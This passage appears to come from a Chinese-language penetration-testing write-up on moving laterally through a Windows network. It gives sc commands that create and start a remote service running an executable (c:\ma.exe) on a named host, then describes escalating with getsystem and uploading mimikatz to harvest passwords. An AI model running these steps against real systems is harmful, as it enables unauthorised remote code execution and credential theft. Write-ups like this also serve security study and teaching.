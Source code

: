 ```
sc \\WIN-ENS2VR5TR3N create ma binpath= "c:\ma.exe"  //创建服务 sc \\WIN-ENS2VR5TR3N start ma  //执行服务
```

![img](assets/1695035084662-afcacf61-0438-47a2-bcb6-7aa6ca78dc85.png)

------

## 上线利用

![img](assets/1695035084918-691270aa-e0da-4af5-8d24-24ea79331a61.png)

直接getsystem提升权限获取密码结果什么都没有

![img](assets/1695035085180-9eba9c79-05dc-4ca1-b499-8432d1b6a33b.png)
降权上传mimikatz
